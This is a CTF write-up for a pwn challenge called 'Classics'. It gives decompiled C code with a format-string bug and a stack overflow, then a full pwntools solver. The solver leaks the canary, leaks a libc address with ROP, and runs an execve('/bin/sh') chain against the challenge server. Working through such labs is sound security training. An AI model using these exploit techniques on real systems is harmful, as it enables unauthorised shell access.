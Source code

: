 ## Classics
![challenge](../images/classics.png)

### Source Code
```c
void menu(void)

{
  puts("Hello pwner, i\'ll give you two choices . do your magic!.");
  puts("--> [1] shake your proteins.");
  puts("--> [2] drink it.");
  puts("--> [3] go to the gym.");
  printf("> ");
  return;
}
```
```c
void shake(void)

{
  long in_FS_OFFSET;
  undefined local_dc [4];
  char local_d8 [200];
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  printf("How many spoons do you want to pour: ");
  __isoc99_scanf(&DAT_0040202e,local_dc);
  printf("Do You want to say something while we are preparing it ?: ");
  read(0,local_d8,199);
  printf(local_d8);
  puts("now go drink it.");
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
```c
void drink(void)

{
  long in_FS_OFFSET;
  undefined local_48 [56];
  long canary;
  
  canary = *(long *)(in_FS_OFFSET + 0x28);
  puts("Now drink your proteins and give me your feedback\n");
  __isoc99_scanf(&DAT_004020bb,local_48);
  if (canary != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return;
}
```
```c
undefined8 main(void)

{
  uint uVar1;
  char local_d [5];
  
  setup();
  while( true ) {
    menu();
    read(0,local_d,4);
    uVar1 = atoi(local_d);
    if (uVar1 == 3) break;
    if (uVar1 < 4) {
      if (uVar1 == 1) {
        shake();
      }
      else if (uVar1 == 2) {
        drink();
      }
    }
  }
  puts("cy@");
  return 0;
}
```

### Overview
Before diving into the exploitation process lets check the properties of executable file.<br>
![checksec](../images/classics_checksec.png)

We can see that ```NX``` is enabled and a ```Canary``` found (if you don't know what canary is you can check this https://ctf101.org/binary-exploitation/stack-canaries/). So in order to solve this we need to :
	<ul>
		<li><strong>Leak the Canary</strong></li>
		<li><strong>Calculate libc.address</strong></li>
		<li><strong>Pop up a Shell</strong></li>
	</ul>

### Solver
```py
#!/usr/bin/env python3
from pwn import *

#context.log_level = 'DEBUG'

libc = ELF('libc6_2.27-3ubuntu1.5_amd64.so')
elf = context.binary = ELF('./main')
p = remote('20.216.40.184', 10007)

junk = b'\x90' * 56

p.sendline(b'1')
p.sendline(b'1')
p.recvuntil(b'Do You want to say something while we are preparing it ?: ')
p.sendline(b'%33$p')
resp = p.recvline().strip()
canary = int(resp,16)
log.success(f'canary = {hex(canary)}')

############################################################

rop = ROP(elf)
rop.call(elf.plt.puts, [elf.got.puts])
rop.call(elf.sym.main)
#log.info(rop.dump())
payload = junk + p64(canary) + b'\x90'*8 + rop.chain()
p.sendline(b'2')
p.recvuntil(b'Now drink your proteins and give me your feedback\n\n')
p.sendline(payload)
resp = p.recvline().strip()
leak = u64(resp.ljust(8, b'\x00'))
log.info(f'puts leak = {hex(leak)}')
libc.address = leak - libc.sym.puts
log.success(f"libc Address : {hex(libc.address)}")

##############################################################

POPRDI = 0x40143b
POPRAX = libc.address + 0x00000000001cf8a8
POPRSI = libc.address + 0x0000000000023a6a
POPRDX = libc.address + 0x0000000000001b96
SYSCALL = libc.address + 0x0000000000002743

pay = junk
pay += p64(canary)
pay += p64(0xdeadbeef) # 	overwrite rbp
pay += p64(POPRAX)
pay += p64(0x3b)
pay += p64(POPRDI)
pay += p64(next(libc.search(b'/bin/sh')))
pay += p64(POPRSI)
pay += p64(0)
pay += p64(POPRDX)
pay += p64(0)
pay += p64(SYSCALL)

p.sendline(b'2')
p.recvuntil(b'Now drink your proteins and give me your feedback\n\n')
p.sendline(pay)

p.interactive()
p.close()
```
